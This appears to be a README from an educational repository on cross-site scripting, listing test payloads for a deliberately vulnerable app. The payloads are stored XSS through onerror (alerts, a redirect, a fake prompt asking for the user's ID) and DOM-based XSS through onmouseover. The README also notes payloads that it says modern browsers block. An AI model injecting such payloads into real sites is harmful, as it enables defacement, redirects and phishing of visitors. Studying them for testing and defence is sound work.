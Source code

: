 # Examples to test the application

## Try to send some basics values

HTML tags : strong, h1, h2..., input

example : <input type="text" value="whatever" style="color:white; background-color:red"></input>

## XSS Persistent (stocked) with `onerror`

- `<img src=whatever onerror=alert('youhou')>`
- `<img src=whatever onerror="window.location='https://github.com/fabienAstia/xss-vulnerabilities/tree/main';">`
- `<img src=whatever onerror=console.log("Error is success")>`
- `<img src/onerror=prompt('Sorry,&nbsp;an&nbsp;error&nbsp;was&nbsp;occurred.&nbsp;Please,&nbsp;enter&nbsp;your&nbsp;Id&nbsp;to&nbsp;continue')>`

## XSS DOM-based with link

- `<a onmouseover="alert('youhou')">Click me!</a>`
- `<a onmouseover="document.body.style='color:blue;'">Click me!</a>`
- `<a onmouseover="document.body.style='transform:rotate(180deg);'">Click me!</a>`

> Note: in modern tools and navigators. These not workings :

- `<script>alert('youhou')</script>`
- `<img src/onerror=prompt('Sorry, an error was occurred. Please, enter your Id to continue')>`
- `<component is=script text=alert(1)>`